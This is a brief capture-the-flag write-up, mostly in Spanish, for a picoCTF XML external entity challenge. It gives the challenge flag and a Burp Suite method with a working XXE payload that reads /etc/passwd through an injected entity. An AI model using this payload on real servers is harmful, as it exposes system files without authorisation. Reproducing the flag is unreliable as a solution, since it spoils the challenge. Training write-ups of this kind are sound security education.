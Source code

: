 ## Descripción

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
## Solución

**picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}**
## Notas Adicionales

con burpsuite en el proxy solo es ver la accion que hace cada boton, ese puede ser modificado en el burpsuite en la parte de Repeater  con <!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<ID>
	&xxe;
</ID>
## Referencias
https://www.youtube.com/watch?v=KqoYNr-dG_w
